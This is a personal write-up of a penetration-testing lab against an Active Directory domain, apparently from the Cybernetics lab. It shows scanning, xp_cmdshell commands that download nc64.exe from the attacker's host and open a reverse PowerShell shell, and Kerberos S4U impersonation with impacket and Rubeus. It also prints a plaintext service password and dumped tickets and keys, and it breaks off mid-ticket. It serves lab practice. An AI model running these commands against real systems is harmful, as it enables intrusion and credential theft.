Same here I will run Rustscan and check all the possible services open on the TCP protocoll. And here I see some strabge apps which might be that this is the Webapp server?



Indeed this is the webapp server...

```
ORT      STATE SERVICE       REASON         VERSION
135/tcp   open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
445/tcp   open  microsoft-ds? syn-ack ttl 64
1883/tcp  open  mqtt          syn-ack ttl 64
| mqtt-subscribe: 
|   Topics and their most recent payloads: 
|     ActiveMQ/Advisory/Consumer/Topic/#: 
|_    ActiveMQ/Advisory/MasterBroker: 
3389/tcp  open  ms-wbt-server syn-ack ttl 64 Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: M3C
|   NetBIOS_Domain_Name: M3C
|   NetBIOS_Computer_Name: M3WEBAW
|   DNS_Domain_Name: m3c.local
|   DNS_Computer_Name: m3webaw.m3c.local
|   DNS_Tree_Name: m3c.local
|   Product_Version: 10.0.17763
|_  System_Time: 2024-06-11T11:11:44+00:00
| ssl-cert: Subject: commonName=m3webaw.m3c.local
| Issuer: commonName=m3webaw.m3c.local
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-06-10T02:54:10
| Not valid after:  2024-12-10T02:54:10
| MD5:   f780:2af2:5619:70b6:25a0:47c7:2598:ab72
| SHA-1: 4f54:2797:1ee8:ca6e:bdad:ff1e:b6d6:e72e:e603:7734
| -----BEGIN CERTIFICATE-----
| MIIC5jCCAc6gAwIBAgIQYHKR4yeWkK1MDhsjU8I85zANBgkqhkiG9w0BAQsFADAc
| MRowGAYDVQQDExFtM3dlYmF3Lm0zYy5sb2NhbDAeFw0yNDA2MTAwMjU0MTBaFw0y
| NDEyMTAwMjU0MTBaMBwxGjAYBgNVBAMTEW0zd2ViYXcubTNjLmxvY2FsMIIBIjAN
| BgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAsEt7t0cNtygWWgM/NWVwvMWIkS65
| 1vWkGaDqDykOpgY2J6Jn9YcgSJ9nBscdwbG2sz5wEnh51Kw2N9DqwLrd2qDrjP4l
| BDohLQ3K85JNiuMyky+LE+fmWROhKDg1Otk79DbNB9mje62BvbLVbzgYfsnn4fhV
| CRTOLLxKfTtaeaECT68GuChOUJwww1EUcmD6gV5i0elWpKuw6XUqq08HZ5DAarLt
| LQe70sk+djO3DgGTcyJ19xUBh4OVvLUcGS1O8GvtQiDZyOYCX3oW7uvfzsOZwjT0
| jMBUg6UFzNrBranTQ/g2lKLFeS28gjh9VQzn5BKrrP+jmTlvm4UEmps3SQIDAQAB
| oyQwIjATBgNVHSUEDDAKBggrBgEFBQcDATALBgNVHQ8EBAMCBDAwDQYJKoZIhvcN
| AQELBQADggEBAKWF8xRP8jaQ81G+P65FX8fwzOe9MsTQmj+HqSnRZEWTj/hWm9zZ
| zX7YwMdylkywVXzoGJwIRPEL6s+/+FxAcGoxEtYEZvTmdVA4sUxWTbELcRChXtlD
| UWN3EhQLy9vUw7h8IhNTDbtHeSHPd5e289uruNXAGYggnShcxprDrwTpKRwojihr
| k81UQ4SUIHhj5KI7TUcZGmiSzqHhexPzDbKKnL6SdnET/1cHGGIqDP0mmoP0Qggo
| Er8Yev6ISK5xTEpPUR2aDImTGFB7am1nA+uvI0k1ZBnvK9Af+CqmVdiGuRoJhlxu
| toDtO9YeAZ8fWEGsc8glA0V1U4DDTnAFWkM=
|_-----END CERTIFICATE-----
|_ssl-date: 2024-06-11T11:12:24+00:00; -1s from scanner time.
5672/tcp  open  amqp?         syn-ack ttl 64
|_amqp-info: ERROR: AMQP:handshake connection closed unexpectedly while reading frame header
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GetRequest, HTTPOptions, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NotesRPC, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, WMSRequest, X11Probe, afp, giop, ms-sql-s, oracle-tns: 
|_    AMQP
5985/tcp  open  http          syn-ack ttl 64 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
8161/tcp  open  http          syn-ack ttl 64 Jetty 8.1.16.v20140903
|_http-server-header: Jetty(8.1.16.v20140903)
|_http-favicon: Unknown favicon MD5: 05664FB0C7AFCD6436179437E31F3AA6
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-title: Apache ActiveMQ
47001/tcp open  http          syn-ack ttl 64 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49687/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49688/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49689/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49706/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
50042/tcp open  tcpwrapped    syn-ack ttl 64
61613/tcp open  stomp         syn-ack ttl 64 Apache ActiveMQ 5.10.1 - 5.11.1
61614/tcp open  http          syn-ack ttl 64 Jetty 8.1.16.v20140903
|_http-title: Error 500 Server Error
| http-methods: 
|   Supported Methods: GET HEAD TRACE OPTIONS
|_  Potentially risky methods: TRACE
|_http-server-header: Jetty(8.1.16.v20140903)
61616/tcp open  apachemq      syn-ack ttl 64 ActiveMQ OpenWire transport
| fingerprint-strings: 
|   NULL: 
|     ActiveMQ
|     TcpNoDelayEnabled
|     SizePrefixDisabled
|     CacheSize
|     StackTraceEnabled
|     CacheEnabled
|     TightEncodingEnabled
|     MaxFrameSize
|     MaxInactivityDuration
|_    MaxInactivityDurationInitalDelay
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
```

Again hat about possible UPD services?



# SMB

We can do same and check on possible hidden stuff on SAMBA/NETBIOS?



&nbsp;

# MOSQUITTO

Now we can see if that mosquitto can help us somehow?



Seems like we can't subscribe

# The next day

Now i had to catch back since every night the LAB get's resetted so I had to fetch another shell via SQL!

```
EXECUTE('EXEC xp_cmdshell ''powershell -NoP -NonI -c Invoke-WebRequest -Uri http://10.9.20.13:8080/nc64.exe -OutFile C:\Users\Public\nc64.exe''') AT [m3sqlw.m3c.local]
```



We can also see that the file is there since it saved in the directory:



Which means now we should be able to invoke a shell? Seems like this time the issue is with the defender?



Now a possible alternative is to use nc.exe instead which was indeed failing but nc64.exe isn't cause the defender isn't complaining about it and sending this we can now connect whenever we want:

```
EXECUTE('EXEC xp_cmdshell ''C:\Users\Public\nc64.exe 10.9.20.13 8081 -e powershell''') AT [m3sqlw.m3c.local]
```

 Now something I realized tonight was that the reason I am not able to login via RDP(yesterday) is most likely caused by an enforced GPO that is allowing only an AD group to login. If we check the RDP/Administrator's local group:

```
PS C:\> net user
net user

User accounts for \\M3SQLW

-------------------------------------------------------------------------------
Administrator            DefaultAccount           Guest                    
The command completed successfully.

PS C:\> net localgroup Administrators
net localgroup Administrators
Alias name     Administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
M3C\Domain Admins
The command completed successfully.

PS C:\> net localgroup "Remote Desktop Users"
net localgroup "Remote Desktop Users"
Alias name     Remote Desktop Users
Comment        Members in this group are granted the right to logon remotely

Members

-------------------------------------------------------------------------------
The command completed successfully.

PS C:\>
```

As you see there are no special local users and you can see that Administrator have the group Domain admins.

But this can we seen from Bloodhound,



Specifically you can see that the WinRM policy is applied!



Now we have the location and we can see the policy by using SQL_SVC credentials we dumped yesterday from MSSQL server and surf directly the share on DC.

```
mb: \m3c.local\Policies\{11D18024-2D64-4CE7-8479-B41B164B7DAB}\> dir
  .                                   D        0  Thu Jan  2 16:40:38 2020
  ..                                  D        0  Thu Jan  2 16:40:38 2020
  gpt.ini                             A       26  Tue Jan  7 00:31:51 2020
  Machine                             D        0  Thu Jan  2 16:40:38 2020
  User                                D        0  Thu Jan  2 16:40:38 2020
```

As you see the policy is enforcing a remote delete of the users locally!

```
┌──(millycash㉿kali-bello)-[~/Downloads/Cybernetics]
└─$ cat Groups.xml 
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><Group clsid="{6D4A79E4-529C-4481-ABD0-F5BD7EA93BA7}" name="Remote Management Users" image="2" changed="2020-01-06 23:31:51" uid="{AC910209-4C59-4F9C-B3B6-8071D24CDB7D}"><Properties action="U" newName="" description="" deleteAllUsers="0" deleteAllGroups="0" removeAccounts="0" groupSid="" groupName="Remote Management Users"><Members><Member name="M3C\Server Admins" action="ADD" sid="S-1-5-21-340507432-2615605230-720798708-1312"/></Members></Properties></Group>
</Groups>
```

Checking the server admins I see tons of users:



Now yesterday when I tried the impersonation I tried both SVC_APACHE and NORA.B but none of them were actually in this group and since we know that the WINRM Policy is allowing only the Server Admins we must try  with another user instead this time from the right group. In case of failure then we can use the Rubeus.exe

Looking around seems that Charlene's account perfomed a login which might be that her is a good candidate:



Now we can perform the impersonation via S4u ticket and get a new TGT with the alternative SPN=CIFS, matching the right SPN=TIME and pointing to a user that performed a login from SERVER ADMINS=CHARLENE.BUTCHER

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics]
└─# impacket-getST -spn 'time/M3WEBAW.M3C.LOCAL' -altservice 'cifs' -impersonate 'CHARLENE.BUTCHER' -dc-ip 10.9.20.10 m3c.local/svc_sql:'ef8Mahvae2j1'
Impacket v0.12.0.dev1+20240604.210053.9734a1af - Copyright 2023 Fortra

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating CHARLENE.BUTCHER
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Changing service from time/M3WEBAW.M3C.LOCAL@M3C.LOCAL to cifs/M3WEBAW.M3C.LOCAL@M3C.LOCAL
[*] Saving ticket in CHARLENE.BUTCHER@cifs_M3WEBAW.M3C.LOCAL@M3C.LOCAL.ccache
```



Moment of thruth...



Damn it isn't working.. But seems like I can make it working via NetExec?

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics]
└─# NetExec smb 10.9.20.12 -k --use-kcache -u "CHARLENE.BUTCHER" -d "m3c.local" --shares
SMB         10.9.20.12      445    M3WEBAW          [*] Windows 10 / Server 2019 Build 17763 x64 (name:M3WEBAW) (domain:m3c.local) (signing:True) (SMBv1:False)
SMB         10.9.20.12      445    M3WEBAW          [+] m3c.local\CHARLENE.BUTCHER from ccache 
SMB         10.9.20.12      445    M3WEBAW          [-] Error getting user: list index out of range
SMB         10.9.20.12      445    M3WEBAW          [*] Enumerated shares
SMB         10.9.20.12      445    M3WEBAW          Share           Permissions     Remark
SMB         10.9.20.12      445    M3WEBAW          -----           -----------     ------
SMB         10.9.20.12      445    M3WEBAW          ADMIN$                          Remote Admin
SMB         10.9.20.12      445    M3WEBAW          C$                              Default share
SMB         10.9.20.12      445    M3WEBAW          IPC$            READ            Remote IPC
```

Now it is clear that we need to use Rubeus.exe the problem here is that when I get a shell from SQL seems like there is the Defenfer active so I can't run any impersonation or similar... Then I switched back to the LAB1 and now it works...



Even Rubeus.exe works. So now we can attempt back to perform the same task but this time by using the HTTP as SPN so we can execute remote commands... We can start by checking the services:

```
PS C:\Temp> ./Rubeus.exe triage

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.2


Action: Triage Kerberos Tickets (Current User)

[*] Current LUID    : 0x2c3bfa

 -----------------------------------------------------------------------------------------
 | LUID     | UserName            | Service                       | EndTime              |
 -----------------------------------------------------------------------------------------
 | 0x2c3bfa | svc_sql @ M3C.LOCAL | krbtgt/M3C.LOCAL              | 6/12/2024 4:00:01 PM |
 | 0x2c3bfa | svc_sql @ M3C.LOCAL | LDAP/m3dc.m3c.local/m3c.local | 6/12/2024 4:00:01 PM |
 -----------------------------------------------------------------------------------------

PS C:\Temp>
```

And if we run the command we can see that the command is complaining about a ticket missing?

```
PS C:\Temp> ./Rubeus.exe s4u /nowrap /msdsspn:"TIME/M3WEBAW.M3C.LOCAL" /impersonateuser:"CHARLENE.BUTCHER" /domain:"M3C.LOCAL" /user:"SVC_SQL" /password:"ef8Mahvae2j1" /altservice:CIFS

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.2

[*] Action: S4U


[X] You must supply a /rc4 or /aes256 hash!
```

So now we can use /tgtdel /nowrap options to dump the actual tickets hashes from memory...

```
PS C:\Temp> .\Rubeus.exe dump /tgtdel /nowrap

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.2


Action: Dump Kerberos Ticket Data (Current User)

[*] Current LUID    : 0x2c3bfa

  UserName                 : svc_sql
  Domain                   : M3C
  LogonId                  : 0x2c3bfa
  UserSID                  : S-1-5-21-340507432-2615605230-720798708-1292
  AuthenticationPackage    : Kerberos
  LogonType                : Service
  LogonTime                : 6/12/2024 6:00:01 AM
  LogonServer              : M3DC
  LogonServerDNSDomain     : M3C.LOCAL
  UserPrincipalName        : svc_sql@m3c.local


    ServiceName              :  krbtgt/M3C.LOCAL
    ServiceRealm             :  M3C.LOCAL
    UserName                 :  svc_sql (NT_PRINCIPAL)
    UserRealm                :  M3C.LOCAL
    StartTime                :  6/12/2024 6:00:01 AM
    EndTime                  :  6/12/2024 4:00:01 PM
    RenewTill                :  6/19/2024 6:00:01 AM
    Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
    KeyType                  :  aes256_cts_hmac_sha1
    Base64(key)              :  AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA=
    Base64EncodedTicket   :

      doIFdjCCBXKgAwIBBaEDAgEWooIEhTCCBIFhggR9MIIEeaADAgEFoQsbCU0zQy5MT0NBTKIeMBygAwIBAqEVMBMbBmtyYnRndBsJTTNDLkxPQ0FMo4IEQzCCBD+gAwIBEqEDAgEEooIEMQSCBC1hXOmaX+SFx4g28MPVBjiNSVhkdCYl/7uDZj/NPKgy0W8Re6+PebNv4MEwA33ZfOKtzKm5Dk3Guch2RdtK2jpXMRSKAAplgC9v76lnIxiBV/9fPtYDR52hWnY35bZhZV1L2BbtrQxcDuEEwQRgXxuo7OHfLWpfde2CMBEJFJlVyA8jI6nJb+uWVxLsTkj1mynipUgvQfwpIIbxWdnN5+Rr3+FsLaDVXzt9R3lV3Gqq06QTZcT07fnR6TTNmDjRBcXJ5Z2cz1/u+xq49EZnQAwdFUfAsgXds6oAjQVABTRDUVjzql6pcWRR02OUXKzPR7hchYRkgUPB2rOigDKpbWQKtx7l1NIdNk1lJi5UhRpKvccnxfisiPbb7cpJxXnXXupVmiSPdJJ2g1Q44dzfCATQvIJr+aGAnncZ5x+g/THRe8tPNMewKDPuChzOsHPeN7SqdbAszZZGf8uJsa+4KDL7h67nN+Yah8myHSWX7UeroaoRae3frv5sNtA8l+gL/hr5NLrUe6D6P51YysNiD/L/ZJz5usV0BG4HM1p/ngIrO4NX7DV1dRkLUv6hNbF9n0cHJ2hxUj951I1f2snWfxx2LK7+OQt/qGnvn2dOfYA5mVXDuDLgV5YQbUj7OOuXB4+OEMjua02bBijzhtkFLS8UbdMxVKXTTaIr31kQi0g8qAtDbgUfd+uy3l3OPeYLrXUYE+eJ8xioSLbaK++76o0zQfXRabO2Kf+IlwBGM/6lpDR9NADD1qJl1rKx68ofD16m6f2VFnxiE+BixhN9PvmJTOUb+w7091Lm8bbe75F4a4Mo/tq31WRPL79FsR16zVYVW2pdI/mTr/I63BnrrnheTPiX3WyDNStZ1URRpQf04daJJ22Urc5IJDbEW8/8vPTrJ7BbQR/sk2K/VqZzLvekYLe5e2Wa5SycL9Iy926Ba60OgZzpT5kTu1bYixsMoHlddQGqcj/R5seLRykdYzNAhzm2fCDSmQ9kW2Bm6SFHDzBCWsXN+LEDkLE7AdBJ3yDRI9IBekXa56aYmkTI85GbCKrDWnguoJ1TRrsPhOWy3tUyQLXu/oRh38EsASpMvLYSESJXoN+tOR8XbzQt54FhrBXLVob3X9gE/d0fTOcCgy1NbP3/EEggL+LvFMYThcRqteLssCEe6SkQdklZDCtXn6qknYtSd82fhxwUFvRt/SH7lu4yfiQ+7dYsjlBdzr/eNpBZs7nrikouxApioDpYoDJQckar5KF93Y1cDOju1VGbW2n8uQvvDVIzyz0hcER90A9qlep4uHtV2bJpzpS8aD+QPPsOymcUxuUMPoXM5aRqTXUWfWnOAPwMYb9yo77C9OlTL+qr33ZvttbizTCazd95PNNG7gAWT3+iHPqs3+gLjzfE0MAy0Zn52ihjp6Sd9bhFuS0ERk7zgXEmo4HcMIHZoAMCAQCigdEEgc59gcswgciggcUwgcIwgb+gKzApoAMCARKhIgQgAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAChCxsJTTNDLkxPQ0FMohQwEqADAgEBoQswCRsHc3ZjX3NxbKMHAwUAQOEAAKURGA8yMDI0MDYxMjEwMDAwMVqmERgPMjAyNDA2MTIyMDAwMDFapxEYDzIwMjQwNjE5MTAwMDAxWqgLGwlNM0MuTE9DQUypHjAcoAMCAQKhFTATGwZrcmJ0Z3QbCU0zQy5MT0NBTA==


    ServiceName              :  LDAP/m3dc.m3c.local/m3c.local
    ServiceRealm             :  M3C.LOCAL
    UserName                 :  svc_sql (NT_PRINCIPAL)
    UserRealm                :  M3C.LOCAL
    StartTime                :  6/12/2024 6:00:02 AM
    EndTime                  :  6/12/2024 4:00:01 PM
    RenewTill                :  6/19/2024 6:00:01 AM
    Flags                    :  name_canonicalize, ok_as_delegate, pre_authent, renewable, forwardable
    KeyType                  :  aes256_cts_hmac_sha1
    Base64(key)              :  8sCYttOHLBAi+E4QcBcio4I1YF/ZJcCAceAyWBUKvh0=
    Base64EncodedTicket   :

      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
```

Now since we are not NTSystem we can't get the RC4 hash but seems like we can just use the B64 encoded kirbi ticket istelf in Rubeus.exe:





But it is still failing, and I noticed I didn't copy the whole B64 kirbi ticker, silly me!

getting a B64 encoded ticket of SVC_SQL from memory:

```
PS C:\Temp> .\Rubeus.exe tgtdeleg /nowrap

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.2


[*] Action: Request Fake Delegation TGT (current user)

[*] No target SPN specified, attempting to build 'cifs/dc.domain.com'
[*] Initializing Kerberos GSS-API w/ fake delegation for target 'cifs/m3dc.m3c.local'
[+] Kerberos GSS-API initialization success!
[+] Delegation requset success! AP-REQ delegation ticket is now in GSS-API output.
[*] Found the AP-REQ delegation ticket in the GSS-API output.
[*] Authenticator etype: aes256_cts_hmac_sha1
[*] Extracted the service ticket session key from the ticket cache: Qv9AawomkOUzNS7Hz6kb3yAaIkqauURbVWH2tXZPBGw=
[+] Successfully decrypted the authenticator
[*] base64(ticket.kirbi):

      doIFdjCCBXKgAwIBBaEDAgEWooIEhTCCBIFhggR9MIIEeaADAgEFoQsbCU0zQy5MT0NBTKIeMBygAwIBAqEVMBMbBmtyYnRndBsJTTNDLkxPQ0FMo4IEQzCCBD+gAwIBEqEDAgEEooIEMQSCBC3VH8A46IhB6YpW+OKhMU45U0dMIQS6PZksAjMhJNHfC5qEL0amTU77Ayn9kd9SJUuh8UHD3dP4EP072pbiVCkdAgS70m/3sjLbrwS8D2eiFIxPTqAtmRkn8bG/PnK5pcTVGRnI8V88DpceNySSgF38YCj23VroDnAgBnzDMRAQpYvp71AJRZquzxH24k0sayLzKiIqkObIxUfbLv7DYLZwtZxdJBepsQxh4OLZmigT7fZK6u/LdVsUfSos7SLuwTMORPnNYNrViaaYAopyrLHQ+Lv6cOSqcOgAK1/AOXix1PcGPBNdYvQDBgGSms38Z1JNO0dnAJyY3P8x5gB3mSZMYsHL2VBcNGTgbzPaNe5R5us3RQNOoVQN5IP1bBKJvRzKu6wjy5s9FpGhD0Q085sIcDT5fcNoM9NC+bzg7cVXlT+uHTy198JLeqvxi6U3o1bN4+wSvhsjVYb/WF5YXCtO8tRBBqAhc5/v17MwHz5tfaTFxR8iT/5lu++a/Y4SZVO2rKO5Ep5f91fUSHYJQVr1q1whAIFIThijhI6g/FjEjpRBiUHur3Qzzn3xD7i3FcaZxOx2YZPbYNoa428UsEwgm6aU+o1Aplff8YVmIxeOZKcsltGCwTT0BkorLXB8bgu/SzLjmuFExsL0ysB+VIDGJ+AuOYw7CgXKqmVaUq+dXyYuUJythYvQ1vM3WsSiuztfXCgAtETuw46YAf8CrE9FIwvGEu5NccG2RDejL3nPsn8Zcv6QOARQS2zc4sASj0RNC46zfitYm1ENUHc8OFV+0bLU7t9KDyF3AEg3F7GaUcQErn052xnZ73dFUqURE/MRiE8hLEEceXJm8iGRarXwqo0ZQzT+icLd/xQN1s79ctl1B77XxeM8H5m8ieRI2KcZXFwLigd2zGOUSqRixL77F/hehobb64D+93diI29Gi0o7o2xBvJJ2aaDk0yuJzWDuHgTLzIThbbP2bmcCxKgYuoECilC0hpi4cCvNEcXDB8CBp98/rsIjAJtG0kRJVITkTZIOFcrM4yOkedNSkIu8rgUOa7MrSUTSZL3AHTitLUdbrAj0qytLJgNM/k+HgH24Cx57zT8qLC4H5GFgdhFuqlLzLG2ho/3WVe7gRW+slYpGYGiAwQnUP18yEAX9tJ8dHCFZTFDMQ52wOSRQS6mg1E+ttmdFZPHlWkcOsDbOl8kmlzVGyaVWcXhJJgNX9+OH4qpWdDh8n8SFoszl6IfQAazqfBKcEfruZjJU4++abMrJpvwITu8HKPe37CSTImRWqbNnlsFmu670Sulo8wL75+HC5ak95gi2KzYE3idwEO7iWl/vO8BbD+MdbVM5XT8/p9wNAgt1MJnAE6feSaEPul4taIk9mEJUX7pq2h/y+gUSUpD7HUiqj9Cicf64ZfymASjrmxKHTUjfoSedo4HcMIHZoAMCAQCigdEEgc59gcswgciggcUwgcIwgb+gKzApoAMCARKhIgQgoeLfbkXuVJLQrnZonFWkm7ctmupKFjvnQTa9P3+qq0qhCxsJTTNDLkxPQ0FMohQwEqADAgEBoQswCRsHc3ZjX3NxbKMHAwUAYKEAAKURGA8yMDI0MDYxMjEwNDcyOVqmERgPMjAyNDA2MTIyMDAwMDFapxEYDzIwMjQwNjE5MTAwMDAxWqgLGwlNM0MuTE9DQUypHjAcoAMCAQKhFTATGwZrcmJ0Z3QbCU0zQy5MT0NBTA==
```

And now I see a success?

```
PS C:\Temp> ./Rubeus.exe s4u /ticket:doIFdjCCBXKgAwIBBaEDAgEWooIEhTCCBIFhggR9MIIEeaADAgEFoQsbCU0zQy5MT0NBTKIeMBygAwIBAqEVMBMbBmtyYnRndBsJTTNDLkxPQ0FMo4IEQzCCBD+gAwIBEqEDAgEEooIEMQSCBC3VH8A46IhB6YpW+OKhMU45U0dMIQS6PZksAjMhJNHfC5qEL0amTU77Ayn9kd9SJUuh8UHD3dP4EP072pbiVCkdAgS70m/3sjLbrwS8D2eiFIxPTqAtmRkn8bG/PnK5pcTVGRnI8V88DpceNySSgF38YCj23VroDnAgBnzDMRAQpYvp71AJRZquzxH24k0sayLzKiIqkObIxUfbLv7DYLZwtZxdJBepsQxh4OLZmigT7fZK6u/LdVsUfSos7SLuwTMORPnNYNrViaaYAopyrLHQ+Lv6cOSqcOgAK1/AOXix1PcGPBNdYvQDBgGSms38Z1JNO0dnAJyY3P8x5gB3mSZMYsHL2VBcNGTgbzPaNe5R5us3RQNOoVQN5IP1bBKJvRzKu6wjy5s9FpGhD0Q085sIcDT5fcNoM9NC+bzg7cVXlT+uHTy198JLeqvxi6U3o1bN4+wSvhsjVYb/WF5YXCtO8tRBBqAhc5/v17MwHz5tfaTFxR8iT/5lu++a/Y4SZVO2rKO5Ep5f91fUSHYJQVr1q1whAIFIThijhI6g/FjEjpRBiUHur3Qzzn3xD7i3FcaZxOx2YZPbYNoa428UsEwgm6aU+o1Aplff8YVmIxeOZKcsltGCwTT0BkorLXB8bgu/SzLjmuFExsL0ysB+VIDGJ+AuOYw7CgXKqmVaUq+dXyYuUJythYvQ1vM3WsSiuztfXCgAtETuw46YAf8CrE9FIwvGEu5NccG2RDejL3nPsn8Zcv6QOARQS2zc4sASj0RNC46zfitYm1ENUHc8OFV+0bLU7t9KDyF3AEg3F7GaUcQErn052xnZ73dFUqURE/MRiE8hLEEceXJm8iGRarXwqo0ZQzT+icLd/xQN1s79ctl1B77XxeM8H5m8ieRI2KcZXFwLigd2zGOUSqRixL77F/hehobb64D+93diI29Gi0o7o2xBvJJ2aaDk0yuJzWDuHgTLzIThbbP2bmcCxKgYuoECilC0hpi4cCvNEcXDB8CBp98/rsIjAJtG0kRJVITkTZIOFcrM4yOkedNSkIu8rgUOa7MrSUTSZL3AHTitLUdbrAj0qytLJgNM/k+HgH24Cx57zT8qLC4H5GFgdhFuqlLzLG2ho/3WVe7gRW+slYpGYGiAwQnUP18yEAX9tJ8dHCFZTFDMQ52wOSRQS6m